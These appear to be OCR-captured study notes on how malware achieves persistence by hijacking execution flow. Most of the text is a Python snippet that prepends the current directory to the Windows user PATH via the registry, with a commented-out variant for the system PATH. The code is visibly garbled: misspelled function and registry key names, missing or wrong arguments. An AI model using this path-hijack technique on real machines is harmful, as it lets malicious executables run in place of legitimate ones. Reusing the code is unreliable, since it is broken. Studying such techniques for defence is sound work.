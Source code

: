 # Hijack Execution Flow

- Malware can achieve persistence by causing it
to be run instead of legitimate system
processes.
- This can be accomplished in a number of
different ways
    
    — Changing system path
    — Exploiting DLL search order
    
    ![Untitled](images/Untitled1.png)
    
    ### Modify the system paths to insert path for exe in a path of exesting exe
    
    ### **Enviroment variables**
    
    ```python
    import os, winreg
    def readPathVa1ue (reghive , regpath) :
        reg = winreg.ConnectRegistry(None , reghive)
        key = winreg.OpenKey (reg , winreg.KEY_READ)
        index = 0
        while True:
            val  = winreg.EnumVa1ue (key, index)
            if val[0] == "Path":
                return val[1]
            index +=1
    
    def editPathVa1ue (reghive , regpath, targetdir) :
        path = readPathVa1ue(reghive, regpath)
        newpath = targetdir + ";" + path
        reg = winreg.ConnectRegistry(None, regpath)
        key = winreg.OpenKey(reg , regpath , access = winreg.KEY_SET_VALUE)
        winreg.setValueEx(key, "path", 0 , winreg.REG_EXPAND_SZ, newpath)
    
    # Modify user path
    reghive = winreg.HKEY_CURRENT_USER
    regpath = "Environment"
    targetdir = os.getcwd()
    
    editPathVa1ue(reghive,regpath,targetdir)
    
    # Modify system path NEED Admin level on windows
    # reghive = winreg.HKEY_LOCAL_MACHINE
    # regpath = "SYSTEM\CurrentContrlSet\Control\Session Manger\Environment"
    # targetdir = os.getcwd()
    # editPathVa1ue(reghive,regpath,targetdir)
    ```
